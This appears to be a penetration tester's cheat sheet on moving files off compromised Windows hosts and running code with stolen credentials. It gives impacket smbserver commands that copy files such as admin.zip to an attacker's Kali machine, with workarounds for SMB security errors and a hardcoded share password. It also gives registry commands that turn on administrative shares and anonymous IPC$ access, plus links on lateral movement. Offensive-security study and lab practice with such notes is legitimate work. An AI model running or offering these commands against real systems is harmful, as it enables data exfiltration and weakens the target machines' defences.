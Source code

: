 **pure-ftpd**
Non-Interactive shell
```
sudo apt update && sudo apt install pure-ftpd
```

**smbshare**
```bash
# share, share name
# path to share
python smbserver.py share "/root/shell"

//target, windows
dir \\kaliip\share
# upload admin.zip to kali
copy admin.zip \\192.168.119.196\share

## Error: 
## You can't connect to the file share because it's not secure. This share requires the obsolete SMB1 protocol, which is unsafe and could expose your system to attack. Your system requires SMB2 or higher. For more info on resolving this issue, see: https://go.microsoft.com/fwlink/?linkid=852747
smbserver.py -smb2support share ./ 
## or  https://appuals.com/solved-this-share-requires-the-obsolete-smb1-protocol/

## error 
## You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
## start smb with username and password
smbserver.py -username test -password PassW0rd1@ share .
net use /user:test \\kip\share PassW0rd1@
copy xxx.zip \\kip\share\
## delete connection
net use /delete \\kip\IPC$ 

```

# RCE with creds
+ [offensive-lateral-Movement, what to do next after got cred](https://eaneatfruit.github.io/2019/08/18/Offensive-Lateral-Movement/)
+ [hacktricks - manual rce with cred(username/passwd)](https://book.hacktricks.xyz/windows/ntlm#manual-windows-remote-execution-with-username-and-password)

```bash
# 开启硬盘各分区（C$/D$/...）共享
reg add "HKLM\SYSTEM\CurrentControlSet\Services\lanmanServer\Parameters" /v AutoShareServer /t REG_DWORD /d 1 /f

# 开启admin$共享
reg add "HKLM\SYSTEM\CurrentControlSet\Services\lanmanServer\Parameters" /v AutoShareWks /t REG_DWORD /d 1 /f

#开启IPC$共享
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v restrictanonymous /t REG_DWORD /d 0 /f
```
